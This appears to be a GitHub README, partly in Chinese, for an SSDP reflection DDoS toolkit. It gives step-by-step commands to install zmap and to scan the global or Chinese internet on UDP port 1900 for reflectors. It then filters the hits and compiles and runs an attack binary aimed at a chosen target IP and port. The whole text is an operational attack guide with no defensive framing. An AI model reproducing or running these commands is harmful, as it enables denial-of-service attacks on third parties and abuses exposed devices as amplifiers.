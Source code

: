 # SSDP
```
yum -y install gcc+ gcc-c++
yum -y install gcc libcap libpcap libpcap-devel screen php dstat cmake gmp gmp-devel gengetopt byacc flex git json-c cpan vnstat zmap
yum install cmake gmp-devel gengetopt libpcap-devel flex byacc json-c-devel libunistring-devel
wget ftp://ftp.gnu.org/gnu/gengetopt/gengetopt-2.22.6.tar.gz
tar -zvxf gengetopt-2.22.6.tar.gz
cd gengetopt-2.22.6
./configure
make
make install
```
安装zmap<br>
```
yum install git
git clone https://github.com/zmap/zmap
cd zmap/
cmake .
make -j4
make install
```
安装完成！<br>
扫描全球：<br>
```screen zmap -M udp -p 1900 --probe-args=file:upnp_1900.pkt -o ssdp.txt```<br>
扫描国内：<br>
```screen zmap -M udp -p 1900 -w cn.txt -B 100M --probe-args=file:upnp_1900.pkt -o ssdpscan.txt```<br>
扫描完成后,我们开始执行过滤!<br>
过滤 ： <br>
```php ssdpfilter.php ssdp.txt ssdpfiltered.txt 200 1000```
200处理个数  1000线程<br>
全自动：screen ./scan 1<br>
自动过滤跟扫描，到时候表完成过后是ssdp.txt<br>
编译攻击脚本：<br>
```gcc -pthread ssdp.c -o ssdp```
SSDP攻击：<br>
```./ssdp <target IP> <target port> <reflection file>  <time (optional)>```
